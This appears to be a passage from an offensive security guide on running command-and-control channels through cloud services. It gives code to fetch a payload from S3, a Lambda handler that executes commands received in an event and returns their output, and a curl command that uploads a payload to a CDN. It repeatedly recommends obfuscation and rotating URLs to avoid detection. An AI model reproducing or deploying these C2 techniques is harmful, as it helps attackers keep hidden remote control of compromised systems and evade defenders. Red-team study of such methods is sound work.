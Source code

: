    # Retrieve a file from S3 in Python
    import boto3

    s3 = boto3.client('s3')
    s3.download_file('bucket-name', 'path/to/payload.sh', 'local-payload.sh')

    Recommendations:
        Use private buckets with access controlled by AWS IAM roles.
        Ensure that S3 traffic uses HTTPS to encrypt data in transit.

AWS Lambda for C2:

    Description: Lambda functions can execute code in response to events (e.g., HTTP requests), making them suitable for stealthy C2 channels.
    Tools: AWS CLI, boto3, custom Lambda scripts.
    Example:

    python

    # Example Lambda function to process commands
    def lambda_handler(event, context):
        # Retrieve command from event
        command = event['command']
        # Execute the command and return the output
        output = os.popen(command).read()
        return {'output': output}

    Recommendations:
        Use obfuscation techniques in Lambda scripts to avoid detection.
        Rotate API keys and credentials regularly.

CDN (Content Delivery Networks) for C2:

    Description: Using CDNs to cache and deliver C2 commands or payloads. Since CDNs are trusted, using them can make detection harder.
    Tools: Akamai, Cloudflare, custom CDN integration scripts.
    Example:
        Host a payload on a server and use a CDN to distribute:

        bash

            curl -X PUT "https://cdn.example.com/payload.sh" --data-binary @payload.sh

        Recommendations:
            Use CDNs with HTTPS to secure traffic.
            Change the URLs or paths regularly to avoid detection.

C. Data Encoding and Encryption

Encoding and encrypting data can make C2 communications more difficult to detect and analyze. Attackers commonly use base64, AES encryption, or custom encoding schemes.
Techniques and Tools:
